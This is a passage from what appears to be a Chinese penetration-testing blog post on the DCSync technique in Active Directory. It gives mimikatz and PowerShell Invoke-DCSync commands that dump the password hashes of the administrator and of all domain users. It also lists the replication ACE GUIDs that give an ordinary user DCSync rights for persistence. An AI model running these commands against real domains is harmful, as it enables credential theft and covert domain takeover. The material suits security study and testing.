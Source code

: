 导出域内administrator帐户的hash：

```
mimikatz.exe "lsadump::dcsync /domain:test.com /user:administrator /csv" exit
```

#### 2.powershell实现

https://gist.github.com/monoxgas/9d238accd969550136db

通过Invoke-ReflectivePEinjection调用mimikatz.dll中的dcsync功能

导出域内所有用户的hash：

```
Invoke-DCSync -DumpForest | ft -wrap -autosize
```

导出域内administrator帐户的hash：

```
Invoke-DCSync -DumpForest -Users @("administrator") | ft -wrap -autosize
```

**注：**

获得了域内用户的hash后，进一步利用可参考之前的文章：

[《域渗透——Pass The Hash的实现》](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Pass-The-Hash%E7%9A%84%E5%AE%9E%E7%8E%B0/)

[《渗透技巧——Pass the Hash with Remote Desktop(Restricted Admin mode)》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Pass-the-Hash-with-Remote-Desktop(Restricted-Admin-mode)/)

《域渗透——Pass The Hash & Pass The Key》





## 0x03 利用DCSync在域内维持权限的方法
---

**利用条件：**

获得以下任一用户的权限：

- Domain Admins组内的用户
- Enterprise Admins组内的用户

**利用原理：**

向域内的一个普通用户添加如下三条ACE(Access Control Entries)：

- DS-Replication-Get-Changes(GUID:1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)
- DS-Replication-Get-Changes-All(GUID:1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
- DS-Replication-Get-Changes(GUID:89e95b76-444d-4c62-991a-0facbeda640c)

该用户即可获得利用DCSync导出域内所有用户hash的权限

**实现代码：**
